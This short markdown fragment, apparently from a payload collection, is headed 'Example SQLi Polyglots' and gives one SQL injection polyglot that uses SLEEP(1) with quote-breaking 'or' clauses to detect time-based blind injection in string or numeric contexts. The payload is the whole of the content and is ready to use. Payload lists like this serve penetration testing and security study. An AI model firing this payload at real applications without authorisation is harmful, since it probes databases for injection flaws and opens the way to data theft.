 ## Example SQLi Polyglots

```bash
# Polyglot #1 = Basic polyglot
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
